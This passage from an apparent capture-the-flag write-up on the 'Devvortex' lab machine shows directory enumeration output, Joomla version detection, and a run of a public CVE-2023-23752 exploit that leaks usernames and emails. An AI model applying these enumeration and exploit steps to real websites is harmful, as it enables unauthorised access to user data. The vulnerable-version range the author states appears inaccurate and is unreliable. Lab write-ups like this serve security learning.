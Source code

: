 ```terminal
301      GET        7l       12w      178c http://dev.devvortex.htb/components => http://dev.devvortex.htb/components/
404      GET        1l        3w       16c http://dev.devvortex.htb/contact25php
404      GET        1l        3w       16c http://dev.devvortex.htb/ctpaygatephp
200      GET      501l     1581w    23221c http://dev.devvortex.htb/home
301      GET        7l       12w      178c http://dev.devvortex.htb/images => http://dev.devvortex.htb/images/
301      GET        7l       12w      178c http://dev.devvortex.htb/includes => http://dev.devvortex.htb/includes/
301      GET        7l       12w      178c http://dev.devvortex.htb/language => http://dev.devvortex.htb/language/
301      GET        7l       12w      178c http://dev.devvortex.htb/layouts => http://dev.devvortex.htb/layouts/
301      GET        7l       12w      178c http://dev.devvortex.htb/libraries => http://dev.devvortex.htb/libraries/
404      GET        1l        3w       16c http://dev.devvortex.htb/maphp
301      GET        7l       12w      178c http://dev.devvortex.htb/media => http://dev.devvortex.htb/media/
301      GET        7l       12w      178c http://dev.devvortex.htb/modules => http://dev.devvortex.htb/modules/
```

We found a lot of information this time, the `/administrator/` page sounds interesting so let's take a look at it.

![admin](3.png)

It's `Joomla`.

There is a great scanner of joomla called [joomscan](https://github.com/OWASP/joomscan), let's use it and see what we can find.

![jommscan](4.png)

The version of `Joomla` is `4.2.6`.

Searching on the internet for exploits we find that versions prior to `4.6.8` are vulnerable to `Information disclosure` `CVE-2023-23752`.

A good exploit can be found at <https://github.com/Acceis/exploit-CVE-2023-23752>.

#### Joomla Exploit

```terminal
ruby exploit.rb http://dev.devvortex.htb                                                                                                                                                                                                
Users                                                                                                                                                                                                                                       
[649] lewis (lewis) - lewis@devvortex.htb - Super Users                                                                                                                                                                                     
[650] logan paul (logan) - logan@devvortex.htb - Registered                                                                                                                                                                                 
                                                                                                                                                                                                                                            
Site info                                                                                                                                                                                                                                   
Site name: Development                                                                                                                                                                                                                      
Editor: tinymce                                                                                                                                                                                                                             
```